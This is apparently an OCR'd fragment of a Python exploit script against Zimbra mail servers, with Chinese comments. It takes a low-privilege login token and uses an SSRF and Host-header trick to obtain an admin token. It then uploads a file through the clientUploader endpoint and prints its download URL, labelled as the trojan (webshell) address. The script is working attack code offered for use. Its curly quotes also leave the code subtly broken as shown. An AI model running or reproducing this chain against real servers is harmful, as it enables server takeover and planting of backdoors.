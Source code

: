 ```
#72行路径可能为/service/soap

r=requests.post(base_url+"/service/admin/soap",data=auth_body.format(xmlns=“urn:zimbraAccount”,username=username,password=password),verify=False)

pattern_auth_token=re.compile(r"<authToken>(.*?)</authToken>")

low_priv_token = pattern_auth_token.findall(r.text)[0]

#print(low_priv_token)

# SSRF+Get Admin_Token Stage

headers[“Cookie”]=“ZM_ADMIN_AUTH_TOKEN=”+low_priv_token+";"

headers[“Host”]=“foo:7071”

#print("[*] Get Admin  Auth Token By SSRF")

#r = requests.post(base_url+"/service/proxy?target=https://127.0.0.1:7071/service/admin/soap",data=auth_body.format(xmlns=“urn:zimbraAdmin”,username=username,password=password),headers=headers,verify=False)

r = requests.post(base_url+"/service/admin/soap",data=auth_body.format(xmlns=“urn:zimbraAdmin”,username=username,password=password),headers=headers,verify=False)

#若86行无法使用请使用85行

admin_token =pattern_auth_token.findall(r.text)[0]

#print(“ADMIN_TOKEN:”+admin_token)

f = {

‘filename1’:(None,“whocare”,None),

‘clientFile’:(filename,fileContent,“text/plain”),

‘requestId’:(None,“12”,None),

}

headers ={

“Cookie”:“ZM_ADMIN_AUTH_TOKEN=”+admin_token

}

print("[*] 木马地址")

r = requests.post(base_url+"/service/extension/clientUploader/upload",files=f,headers=headers,verify=False)

#print(r.text)

print(base_url+"/downloads/"+filename) `#print("[*] Request Result:")

s = requests.session()

r = s.get(base_url+"/downloads/"+filename,verify=False,headers=headers)

#print(r.text)

```
